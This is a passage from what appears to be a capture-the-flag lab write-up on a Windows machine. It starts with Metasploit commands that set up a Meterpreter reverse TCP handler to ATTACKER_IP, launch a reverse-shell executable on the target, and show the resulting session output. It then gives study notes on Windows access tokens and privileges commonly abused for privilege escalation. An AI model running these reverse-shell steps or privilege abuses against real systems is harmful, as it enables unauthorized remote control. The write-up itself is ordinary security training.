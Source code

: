 set payload windows/meterpreter/reverse\_tcp

set lhost ATTACKER\_IP

set lport 2345

exploit

**4. Start reverse shell on target.**

start-process "reverse\_shell.exe"

**5. Meterpreter reverse shell spawned.**

\[\*] Meterpreter session 1 opened (ATTACKER\_IP:2345 -> TARGET\_IP:49297) at 2024-02-23 17:50:15 +0000

getuid

Server username: alfred\bruce

### **Privilege escalation** <a href="#id-7enly4usj4o2" id="id-7enly4usj4o2"></a>

* Windows uses account tokens to ensure accounts have the right privileges to carry out particular tasks.
* Tokens assigned when users log in or are authenticated.
* Usually done by **LSASS.exe** (authentication process).
* Access token contents.
  * **User SIDs** (security identifiers).
  * **Group SIDs**.
  * **Privileges**.
* [More detailed access token information](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens).
* Two types of access tokens.
  * **Primary access tokens**.
    * Generated upon logon and associated with a user account.
  * **Impersonation tokens**.
    * Allows particular process (or thread) to gain access to resources using token of another process.
    * Four different levels.
      * SecurityAnonymous.
        * Current user/client cannot impersonate another user/client.
      * SecurityIdentification.
        * Current user/client can get identity and privileges of client but cannot impersonate client.
      * SecurityImpersonation.
        * Current user/client can impersonate client's security context on local system.
      * SecurityDelegation.
        * Current user/client can impersonate client's security context on remote system.
  * Security context is data structure containing users' relevant security information.
* Privileges of an account allow the user to carry out particular actions.
* Commonly abused privileges.
  * SeImpersonatePrivilege.
  * SeAssignPrimaryPrivilege.
  * SeTcbPrivilege.
  * SeBackupPrivilege.
  * SeRestorePrivilege.
  * SeCreateTokenPrivilege.
  * SeLoadDriverPrivilege.
  * SeTakeOwnershipPrivilege.
  * SeDebugPrivilege.
* [Abusing Token Privileges For LPE](https://www.exploit-db.com/papers/42556).
